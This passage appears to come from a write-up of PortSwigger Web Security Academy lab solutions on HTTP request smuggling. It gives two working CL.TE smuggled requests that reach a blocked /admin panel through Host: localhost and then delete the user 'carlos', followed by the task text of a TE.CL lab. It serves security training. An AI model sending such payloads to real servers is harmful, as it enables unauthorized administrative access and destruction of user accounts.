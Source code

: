 ![img](https://github.com/datnlq/Source/blob/main/HTTP%20request%20smuggling/image/SSTI_CLTE_control_localhost.png?raw=true)

```
POST / HTTP/1.1
Host: your-lab-id.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 54
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: localhost
X-Ignore: X
```



![img](https://github.com/datnlq/Source/blob/main/HTTP%20request%20smuggling/image/SSTI_CLTE_control_panel.png?raw=true)

```
POST / HTTP/1.1
Host: your-lab-id.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 139
Transfer-Encoding: chunked

0

GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=
```

![img](https://github.com/datnlq/Source/blob/main/HTTP%20request%20smuggling/image/SSTI_CLTE_control_del.png?raw=true)


![img](https://github.com/datnlq/Source/blob/main/HTTP%20request%20smuggling/image/SSTI_CLTE_control_solve.png?raw=true)



### Lab: Exploiting HTTP request smuggling to bypass front-end security controls, TE.CL vulnerability
```
This lab involves a front-end and back-end server, and the back-end server doesn't support chunked encoding. There's an admin panel at /admin, but the front-end server blocks access to it.

To solve the lab, smuggle a request to the back-end server that accesses the admin panel and deletes the user carlos.
```

